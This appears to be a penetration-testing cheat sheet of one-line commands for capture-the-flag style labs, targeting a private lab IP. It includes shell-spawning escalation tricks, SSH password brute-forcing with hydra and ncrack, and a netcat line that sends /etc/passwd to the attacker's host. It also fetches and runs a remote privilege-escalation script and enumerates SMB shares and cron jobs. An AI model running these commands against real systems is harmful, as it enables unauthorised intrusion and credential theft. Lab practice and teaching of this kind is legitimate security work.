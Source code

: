 ## Quick and Dirty Commands

For the following examples assume:

**Remote IP:** `10.37.129.11`

**Local IP:** `10.37.129.4`

##### Find a file with the a specified string
`cat /etc/* | grep FLAG2`

##### Grep only usernames from /etc/passwd
`cat /etc/passwd | grep -E '/home/|/root'`

##### Regex in Grep
`ls -al | grep '[a-z][0-9].jpeg'`

##### HEX to ASCII convert
`echo "46 4c 41 47" | xxd -r -ps`

##### Base64 Decode
`echo dmlldyBzb3VyY2UgO0QK | base64 -D`

##### Check webserver for things
`nikto -h 10.37.129.11`

##### Privilege escalation
`python -c 'import pty;pty.spawn("/bin/bash");'`

`awk 'BEGIN {system("/bin/sh")}'`

`find / -name blahblah 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`

`echo os.system('/bin/bash')`

`/bin/sh -i`

```bash
## Editors
:set shell=/bin/bash
:shell
:! /bin/bash
```

##### Enumerate directories
`dirb http://10.37.129.11`

##### Enumerate Linux (Gets OS, host, shares, potential usernames)
`enum4linux -a 10.37.129.11`

##### FTP on custom port
`ftp -p 10.37.129.11 4200`

##### SSH on custom port
`ssh user@10.37.129.11 -p 22222`

##### Search for a package on the system
`rpm -qa | grep ftp`

##### Copy file over netcat | nc
Local Listener: `nc -l -p 2222 > passwd`

Remote Listener: `cat /etc/passwd | netcat 10.37.129.4 2222`

##### Copy file over SCP
```bash
$ scp -r -P 22 username@10.37.129.4:/home/whatever ~/<destination>
$ scp safe root@10.37.129.11:~/<destination>
```

##### Hydra quick user/password enumeration
`hydra -L /usr/share/wordlists/custom/usernamelist.txt -P /usr/share/wordlists/custom/passwordlist.txt -u -s 22 10.37.129.11 ssh -t 4`

##### NCRACK password enumeration and SSH crack
`ncrack -v –user <username> -P <password_list> ssh://10.37.129.11:22222`

##### Pull down linuxprivchecker.py and run
```bash
$ wget https://raw.githubusercontent.com/t04glovern/icu/master/tools/linuxprivchecker.py
$ python linuxprivchecker.py > linux_priv_check.txt
```

##### enum4linux ALL option
`enum4linux -a 10.37.129.11`

##### gzip extract
`tar -xzvf file.tar.gz`

##### DNS quert using nslookup
```bash
## Any records
nslookup -q=any domain.com

## Just specific ones
nslookup -q=TXT site.domain.com
```

##### Job/Task exploits
```bash
## Display scheduled jobs for the specified user – Privileged command
crontab -l -u %username%

## Scheduled jobs overview (hourly, daily, monthly etc)
ls -la /etc/cron*

## What can ‘others’ write in /etc/cron* directories
ls -aRl /etc/cron* | awk '$1 ~ /w.$/' 2>/dev/null

## List of current tasks
top
```

##### Any mounted file-systems
```bash
## Mounted?
mount
df -h

## Unmounted?
cat /etc/fstab
```

##### smbclient scan
`smbclient -L 10.37.129.11`

##### smbclient connect
`smbclient '\\10.37.129.11\<sharename>'`

##### SMB share connect via web browser
`smb://10.37.129.11/<sharename>/`

##### Mount share from command line
`mount -t  smbfs -o username=<username> //<servername>/<sharename> /mnt/point/`

##### Windows related enum
```bash
net users
net localgroup Administrators
lusrmgr.msc
```
